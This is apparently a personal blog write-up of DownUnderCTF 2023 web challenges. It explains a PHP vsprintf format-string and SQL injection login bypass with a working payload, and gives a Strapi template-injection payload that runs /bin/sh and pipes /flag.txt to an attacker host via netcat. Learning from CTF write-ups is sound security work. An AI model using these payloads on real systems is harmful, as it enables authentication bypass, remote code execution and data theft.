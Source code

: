 ```yaml
---
title: What I learned from - downunderctf 2023- Web Section 
date: 2023-09-03 18:25:56
cover_image: https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png
cover_image_alt: About Comments
categories: Writeup
tags:
  - ctf 
  - downunderctf
---
```


# Smooth Jazz

## Source Code

```php
<?php
function mysql_fquery($mysqli, $query, $params) {
  return mysqli_query($mysqli, vsprintf($query, $params));
}

if (isset($_POST['username']) && isset($_POST['password'])) {
  $mysqli = mysqli_connect('db', 'challuser', 'challpass', 'challenge');
  $username = strtr($_POST['username'], ['"' => '\\"', '\\' => '\\\\']);
  $password = sha1($_POST['password']);

  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "%s"', [$username]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Username not found.";
     goto fail;
  }
  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "'.$username.'" AND password = "%s"', [$password]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Invalid password.";
     goto fail;
  }
  $htmlsafe_username = htmlspecialchars($username, ENT_COMPAT | ENT_SUBSTITUTE);
  $greeting = $username === "admin" 
      ? "Hello $htmlsafe_username, the server time is %s and the flag is %s"
      : "Hello $htmlsafe_username, the server time is %s";

  $message = vsprintf($greeting, [date('Y-m-d H:i:s'), getenv('FLAG')]);
  
  fail:
}
?>
```



## Prerequisite knowledge

- Mysql engine **truncates** string from the beginning of an invalid UTF8-encoding character.

- Familiarity with the **format** parameter and the behavior of the **vsprintf** function in PHP.

  - `vsprintf(string $format, mixed ...$values): string`

    - **Format parameter**: 

      - `%[argnum$][flags][width][.precision][specifier]`

        - Example: **[%](starting symbol)** **[1$](match the first value from values)** **['a](replace pad symbol(blank) with (char))** **[s](specifier, determin the data type)**

          > **%**: starting symbol
          >
          > **1$**: [argnums$] :match the first value from values that are passed in.
          >
          > **'a**: one option of the [flags] -> '(char): Replace blank with 'a' to pad the result string. For example, when [width] is set to 100 and the real length of the formatting string is only 5, the rest of the 95 characters would be padded with the letter 'a'.
          >
          > **s**: [specifier]: specify the data type for each data from inputted values. `%` is also a specifier, used for output real `%`, which is a tricky one for <u>smuggling</u> a new token by combining it with the **htmlspecialchars** function.

## Payload

```
POST /

username=admin%ff%251$c%23+%251$'>%25s&password=668
```

- **%ff**: truncates string after "admin". From the Mysql engine's perspective, <u>all the input characters are already determined as "admin"</u>.

- **%251$c** (URL DECODING)-> **%1$c**: a positional specifier tricks the sprints function to format string as we want. In other words, it controls the real transfer stream and achieves our expectations by combining with the password value.

  why we can't directly use %c to format the password field is that formatting a string usually works in order, rendering each item of an input array perspectively to each place of specifier. So we need to specify which data to render, avoiding the error.

  > PHP Fatal error:  Uncaught ValueError: The arguments array must contain 2 items, 1 given in /var/www/html/index.php:3\nStack trace:\n#0 /var/www/html/index.php(3): vsprintf()

- **password=668**: cha1(668) = 34cXXXXX. %34 represents a url-encoded **double-quote**. vsprintf("%1$c", 34) will generate a double-quote to exploit SQL Injection, <u>bypassing the password authentication</u>. 

- **%251$'>%25s** (URL DECODING)-> **%1$'>%s**:  the last step to do is get flag. Although we can not make the username totally match "admin", we can inject a specifier as above to exfiltrate the second 'FLAG' formatting input. 

- To that end, there is a problem emerging. We can not pass two specifiers into the username field, since the previous vsprintf functions all only accept one input value. That means if we directly pass two specifiers in, it will cause a error from php interpreters as we discussed above. So the key point is to leverage `htmlspecialchars` function to "create a specifier" for us. That is what this payload did.

- %1$'>%s --htmlspecialchars-->  %1$'\&gt;%s

  -  The first specifier: **%1$'&g**: a floating point number, taking from position 1, using & as padding char
  - followed by the string "t;"
  - The second specifier: **%s**: string taken from the 2nd position, that is where the FLAG is.

- That is how we arrived there.

# Strapi In

STRAPI IN quick writeup : 

step 1: create a  custom template with a reference id 1

```
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","nc **YOUR_IP YOUR_PORT** < /flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

step 2: visit the url: https://web-strapi-in-6a0f1abf2bf0cbc0.2023.ductf.dev/api/sendtestemail/1 

**for debug**

`/opt/strapi-in/node_modules/strapi-plugin-email-designer/server/services/email.js:91:87`

![image-20230902190236092](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png)

![image-20230902190324305](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190324305.png)

## mustache template with Lodash SSTI payloads

```
{{= _.VERSION }}
{{= _.templateSettings.evaluate }}

```

https://github.com/janl/mustache.js

## Reference

https://www.php.net/manual/en/function.sprintf.php#Specifiers

https://www.php.net/manual/en/function.htmlspecialchars.php

https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/web/smooth-jazz/solve/solution.py

https://www.geeksforgeeks.org/lodash-_-template-method/

https://twitter.com/rootxharsh/status/1268181937127997446?lang=en

https://www.ghostccamm.com/blog/multi_strapi_vulns/

https://lodash.com/docs/4.17.15#templateSettings